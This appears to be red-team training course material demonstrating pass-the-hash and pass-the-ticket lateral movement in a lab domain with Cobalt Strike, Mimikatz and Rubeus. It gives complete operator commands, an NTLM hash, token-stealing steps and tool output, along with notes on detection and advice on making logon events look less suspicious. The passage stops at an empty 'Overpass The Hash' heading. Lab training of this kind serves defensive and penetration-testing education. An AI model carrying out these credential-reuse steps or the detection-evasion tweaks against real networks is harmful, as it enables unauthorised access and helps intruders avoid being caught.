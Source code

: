 We know from our domain recon that jking is a local administrator on multiple computers via his membership of the Support Engineers domain group.  We also have credential material for this user in the form of an NTLM hash, AES256 hash and a Kerberos TGT.

This chapter will demonstrate different techniques in which we can leverage these credentials and use them to access one of the target computers.  There are also several techniques where we don't need credential material directly, but that take advantage of processes that the user is running on a machine we have elevated access on.
A common way of testing access to a machine is to list the C drive, as this requires local admin privileges to access.

# Pass The Hash 

Pass the hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password.  It works by starting a new logon session with a fake identity and then replacing the session information with the domain, username and NTLM hash provided.

Beacon has a dedicated pth command which executes Mimikatz in the background.
  This command requires elevated privileges.


First, attempt to list the C$ share of the WEB machine - this will fail because bfarmer is not a local admin there.

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    
    beacon> ls \\web.dev.cyberbotic.io\c$
    [-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

Then run the pth command with jking's username and NTLM hash.

    beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
    beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
    user	: jking
    domain	: DEV 
    program	: C:\Windows\system32\cmd.exe /c echo 71fb38e2d65 > \\.\pipe\675b08
    impers.	: no
    NTLM	: 59fc0f884922b4ce376051134c71e22c
    |  PID  1932
    |  TID  6600
    |  LSA Process is now R/W
    |  LUID 0 ; 7479840 (00000000:00722220)
    \_ msv1_0   - data copy @ 000001F6344B3D20 : OK !
    \_ kerberos - data copy @ 000001F6345BD7C8
    \_ aes256_hmac       -> null             
    \_ aes128_hmac       -> null             
    \_ rc4_hmac_nt       OK
    \_ rc4_hmac_old      OK
    \_ rc4_md4           OK
    \_ rc4_hmac_nt_exp   OK
    \_ rc4_hmac_old_exp  OK
    \_ *Password replace @ 000001F6344C6128 (32) -> null

We can see that the command Mimiktaz runs passes the new credentials over a named pipe, which Beacon then impersonates automatically.  We can then attempt to list the C$ share again, which will succeed.

    beacon> ls \\web.dev.cyberbotic.io\c$
    [*] Listing: \\web.dev.cyberbotic.io\c$\
    
    Size     Type    Last Modified         Name


To "drop" impersonation afterwards, use the rev2self command.

    beacon> rev2self
    [*] Tasked beacon to revert token
    
    beacon> ls \\web.dev.cyberbotic.io\c$
    [-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

- Two opportunities to detect PTH are the R/W handle to LSASS; and looking for the echo foo > \\.\pipe\bar pattern in command-line logs.
- The former is already part of the "Suspicious Handle to LSASS" saved search.  This time we see an access mask of 0x1038.  This is a combination of PROCESS_QUERY_LIMITED_INFORMATION (0x1000), PROCESS_VM_WRITE (0x0020), PROCESS_VM_READ (0x0010) and PROCESS_VM_OPERATION (0x0008).

- The latter can be found via the "Suspicious Named Pipe Impersonation" search, which queries process events where the arguments contain "echo", ">" and "\\.\pipe\".


# Pass The Ticket 

Pass the ticket is a technique that allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to, or a new one you create.  Accessing a remote resource will then allow that authentication to happen via Kerberos.

For this, we can leverage the TGT we extracted from jking's logon session on Workstation 2.

The first step is to create a blank, "sacrificial" logon session that we can pass the TGT into.  We do this because a logon session can only hold a single TGT at a time.  If we passed jking's TGT into the LUID for bfarmer, it would erase bfarmer's TGT and cause all sorts of authentication issues for the user.

- Creating a new logon session and passing tickets into sessions other than your own requires elevated privileges.

Rubeus' createnetonly command will start a new hidden process of our choosing, using the CreateProcessWithLogonW API.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

This also creates a new LUID.  It will have no tickets inside, so won't be visible with triage just yet.  The next step is to pass the TGT into this new LUID using the Rubeus ptt command.  Where the /luid is the new LUID we just created and /ticket is the base64 encoded ticket we previously extracted.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

Rubeus triage will now show jking's TGT inside this LUID.

    | 0x798c2c | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 5:29:20 PM |

The final step is to impersonate the process that we created with createnetonly using Cobalt Strike's steal_token command.  At a minimum, this requires the PID of the target process, which in this example, is 4748.  We'll then be able to access the remote machine.

    beacon> steal_token 4748
    
    beacon> ls \\web.dev.cyberbotic.io\c$
    [*] Listing: \\web.dev.cyberbotic.io\c$\

As before, use rev2self to drop the impersonation.  To destroy the logon session we created, simply kill the process with the kill command.

    beacon> rev2self
    beacon> kill 4748

Rubeus triage will no longer show the logon session.

- By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.  The "Suspicious Logon Events" saved search will show 4624's where the TargetOutboundDomainName is not an expected value.

We can provide these options on the command line to make the fields appear less anomalous.  The password does not have to be the users' actual password.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123

# Overpass The Hash









